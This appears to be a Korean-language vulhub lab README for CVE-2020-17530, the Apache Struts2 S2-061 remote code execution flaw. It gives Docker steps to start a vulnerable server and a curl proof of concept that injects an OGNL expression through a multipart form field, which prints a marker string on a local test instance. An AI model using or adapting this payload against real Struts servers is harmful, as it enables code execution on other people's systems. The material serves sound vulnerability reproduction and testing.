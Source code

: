 # CVE-2020-17530 - Apache Struts2 RCE (s2-061)

## 개요
Apache Struts2 2.0.0~2.5.25 버전에는 OGNL 표현식 처리의 취약점으로 인해 RCE가 가능한 문제가 존재합니다.

## 환경 구성
다음을 입력하면 Struts 2.5.25 서버가 시작됩니다.
```bash
cd vulhub/struts2/s2-061
docker-compose up -d
```
환경이 시작된 후 방문하면 간단한 페이지가 표시됩니다.

## POC
```
curl -X POST http://localhost:8080/index.action -H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF" --data-binary $'------WebKitFormBoundaryl7d1B1aGsV2wcZwF\r\nContent-Disposition: form-data; name="id"\r\n\r\n%{(#context["com.opensymphony.xwork2.dispatcher.HttpServletResponse"].getWriter().println("===EXPLOITED===")).(#context["com.opensymphony.xwork2.dispatcher.HttpServletResponse"].getWriter().flush())}\r\n------WebKitFormBoundaryl7d1B1aGsV2wcZwF--'
```
